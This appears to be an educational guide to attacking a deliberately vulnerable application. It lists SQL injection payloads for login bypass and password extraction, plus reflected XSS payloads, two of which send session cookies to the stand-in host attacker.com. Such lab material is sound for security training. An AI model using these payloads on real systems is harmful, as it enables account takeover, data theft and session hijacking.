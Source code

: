 # Vulnerability Testing Guide

⚠️ **WARNING: These attacks are for educational purposes only** ⚠️

This guide documents all available vulnerabilities in the application and how to exploit them. Use this knowledge responsibly and only in controlled environments.

## 1. SQL Injection Attacks

### Login Bypass

```sql
# Basic login bypass
Username: admin' OR '1'='1
Password: anything

# Login as specific user
Username: admin'--
Password: anything

# Union-based injection
Username: ' UNION SELECT 1,'admin','admin123',1--
Password: anything
```

### Search Function Exploitation

```sql
# List all users
' OR '1'='1

# Union attack to get table information
' UNION SELECT sql,1,1 FROM sqlite_master--

# Extract user passwords
' UNION SELECT password,username,1 FROM user--
```

## 2. Cross-Site Scripting (XSS) Attacks

### Reflected XSS in Search

```javascript
# Basic alert
<script>alert('XSS')</script>

# Cookie theft
<script>fetch('http://attacker.com?cookie='+document.cookie)</script>

# Session hijacking
<script>new Image().src='http://attacker.com?cookie='+document.cookie;</script>
```
